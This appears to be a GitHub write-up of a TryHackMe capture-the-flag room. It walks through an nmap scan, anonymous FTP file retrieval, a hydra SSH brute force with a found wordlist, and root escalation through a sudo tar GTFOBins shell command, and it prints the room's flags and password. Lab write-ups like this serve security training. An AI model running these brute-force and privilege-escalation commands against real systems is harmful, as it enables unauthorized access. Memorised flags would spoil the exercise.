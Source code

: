 # Bounty_Hunter_THM

### Find open ports on the machine
    nmap -A -sV -O -T4 <IP> nmap 
  
### Who wrote the task list?
    Using nmap we can see that ftp is open so we can connect to that: ftp@<IP>\
    We then need to login as a user: anonymous\
    Using ls we find two file, locks.txt and task.txt\
    To view it we need to download to our directory: get task.txt, get locks.txt\
    Back in our directory we see we now have both files.\
    Let's print out the contents of the files: cat task.txt\
    Looking at the contents of the file of task.txt we see 2 task written by user lin. We now have a user to use.\
                                               1.) Protect Vicious.
                                               2.) Plan for Red Eye pickup on the moon.

                                               -lin
  
### What service can you bruteforce with the text file found?
    ssh
  
### What is the users password? 
    Printing out the contents of locks.txt we get a list of passwords.\
    Now with a user and a list of passwords we can use hydra to login with ssh.\
    hydra -t 16 -l lin -P locks.txt -vV <IP> ssh \
    We get the password RedDr4gonSynd1cat3
  
### user.txt
    Find the user.txt: find /home -name user.txt\
    The file is in /home/lin/Desktop/user.txt\
    Let's go over there and print to contents: We get THM{CR1M3_SyNd1C4T3}
 
### root.txt
    We see that we don't have permission to root\
    We can check of lin has any sudo commands she can run: sudo -l\
    Lin can run /bin/tar as root\
    Move over to /bin\
    Using GTFOBins we can elevate our privilege: https://gtfobins.github.io/gtfobins/tar/ : sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh\
    Now that we have root we can get root.txt: THM{80UN7Y_h4cK3r}
    
    
  

    
    
